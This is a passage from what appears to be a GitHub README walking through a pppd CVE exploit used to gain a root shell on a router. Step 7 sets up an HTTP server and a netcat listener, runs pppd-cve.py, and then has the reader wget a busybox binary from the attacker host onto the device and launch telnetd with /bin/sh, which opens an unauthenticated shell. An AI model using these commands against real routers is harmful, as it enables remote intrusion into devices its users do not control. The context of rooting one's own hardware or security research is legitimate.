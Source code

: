 Requests should now appear in your PPPoE terminal window:

<p align="center">
    <img height="auto" width="auto" src="images/9.png" />
</p>

Also your web browser should now display this instead of a loading spinner:

<p align="center">
    <img height="auto" width="auto" src="images/10.png" />
</p>

### 7. Running the exploit

Open up two new terminal sessions.

Start an HTTP server where we can `wget` the files from later. **Make sure to be in the folder that contains the repo files**.

```sh
python3 -m http.server 80
```

Start the `netcat` network utility.

```sh
netcat -nvlp 31337
```

<p align="center">
    <img height="auto" width="auto" src="images/11.png" />
</p>

Run `pppd-cve.py` in a new terminal session:

```sh
python3 pppd-cve.py
```

<p align="center">
    <img height="auto" width="auto" src="images/12.png" />
</p>

When the packet has been sent successfully, you should be able to see a connection from `192.168.31.1:63627` in your `netcat` session.

If you don't see a connection, your router may have a different MAC address or the MAC you indicate previously is not correct. Re-check the MAC address.

This connection can be unstable and you may need to rerun `netcat` and `pppd-cve.py` if it drops.

If you do the following commands quickly, there should be no issues:

```sh
cd /tmp
wget http://192.168.31.177/busybox
chmod a+x ./busybox
./busybox telnetd -l /bin/sh
```
